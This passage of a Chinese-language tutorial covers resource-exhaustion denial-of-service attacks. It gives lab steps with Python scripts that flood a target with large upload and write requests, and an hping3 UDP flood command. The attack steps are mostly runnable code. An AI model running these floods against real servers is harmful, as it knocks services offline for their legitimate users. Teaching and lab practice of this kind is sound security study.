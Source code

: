 **攻击步骤**：
1. 编写Python脚本发送大量大文件上传请求：
   ```python
   import requests

   url = "http://target-server/upload"
   files = {'file': open('large_file.bin', 'rb')}

   for i in range(1000):
       requests.post(url, files=files)
   ```
2. 运行脚本，持续发送大文件上传请求：
   ```bash
   python memory_exhaustion.py
   ```

### 3.3 带宽资源耗尽攻击

#### 3.3.1 原理
带宽资源耗尽攻击通过发送大量数据包，占用目标系统的网络带宽，使得合法用户无法访问目标系统。常见的攻击方式包括：
- **UDP Flood**：发送大量UDP数据包，占用目标系统的带宽。
- **ICMP Flood**：发送大量ICMP数据包，占用目标系统的带宽。

#### 3.3.2 实战演练
**实验环境搭建**：
- 目标系统：Linux服务器
- 攻击工具：hping3

**攻击步骤**：
1. 在攻击机上安装hping3：
   ```bash
   sudo apt-get install hping3
   ```
2. 使用hping3发送大量UDP数据包：
   ```bash
   hping3 --udp --flood -p 80 target-server
   ```
   其中，`--udp`表示使用UDP协议，`--flood`表示快速发送数据包，`-p`表示目标端口。

### 3.4 磁盘资源耗尽攻击

#### 3.4.1 原理
磁盘资源耗尽攻击通过发送大量需要写入磁盘的请求，使得目标系统的磁盘空间被耗尽，导致系统无法继续运行。常见的攻击方式包括：
- **大文件写入**：发送大量大文件写入请求，占用目标系统的磁盘空间。
- **日志文件填充**：利用目标系统的日志功能，持续写入大量日志数据，占用磁盘空间。

#### 3.4.2 实战演练
**实验环境搭建**：
- 目标系统：Web服务器（如Apache）
- 攻击工具：Python脚本

**攻击步骤**：
1. 编写Python脚本发送大量大文件写入请求：
   ```python
   import requests

   url = "http://target-server/write"
   data = {'file': 'a' * 1024 * 1024}  # 1MB data

   for i in range(1000):
       requests.post(url, data=data)
   ```
2. 运行脚本，持续发送大文件写入请求：
   ```bash
   python disk_exhaustion.py
   ```

